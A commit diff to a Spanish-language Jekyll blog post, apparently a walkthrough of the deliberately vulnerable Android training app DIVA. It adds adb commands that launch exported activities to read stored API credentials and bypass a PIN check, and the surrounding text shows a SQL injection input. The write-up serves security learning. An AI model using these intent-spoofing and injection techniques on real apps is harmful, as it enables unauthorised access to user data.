

Before and after one commit to naibu3/naibu3.github.io, a Jekyll site: the page built from _posts/2025-06-27-Una-DIVA-es.md, in a window 1280 px wide and 1400 px high, scrolled down 2817 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3447 px from its top, so only the background shows below that.

Commit message:
Update 2025-06-27-Una-DIVA-es.md

````diff
--- a/_posts/2025-06-27-Una-DIVA-es.md
+++ b/_posts/2025-06-27-Una-DIVA-es.md
@@ -105,3 +105,39 @@ Con una entrada como `' or '1'='1` podemos ver todos los usuarios:
 # Input Validation Issues - Part 2
 
 Dado que trata de acceder a una URL sin ninguna validación, podemos listar archivos locales como el del ejercicio 1.
+
+# Access Control Issues - Part 1
+
+En esta parte nos mencionan que hay una api corriendo, nos permiten entrar a la pestaña que muestra las credenciales. Sin embargo el objetivo es acceder desde fuera de la apicación:
+
+```bash
+sudo adb shell am start -n jakhar.aseem.diva/jakhar.aseem.diva.APICredsActivity
+Starting: Intent { cmp=jakhar.aseem.diva/.APICredsActivity }
+```
+
+También se puede lanzar con:
+
+```bash
+sudo adb shell am start -a jakhar.aseem.diva.VIEWCREDS
+```
+
+# Access Control Issues - Part 2
+
+Este nivel es similar al anterior, pero en este caso se comprueba que se reciba un valor booleano:
+
+```java
+Intent i = getIntent();
+boolean bcheck = i.getBooleanExtra(getString(R.string.chk_pin), true);
+if (!bcheck) {
+    apicview.setText("TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2");
+    return;
+}
+```
+
+Para pasar dicho valor podemos utilizar el siguiente comando:
+
+```bash
+adb shell am start jakhar.aseem.diva/.APICreds2Activity --ez chk_pin false
+
+Starting: Intent { act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER] cmp=jakhar.aseem.diva/.APICreds2Activity }
+```
````
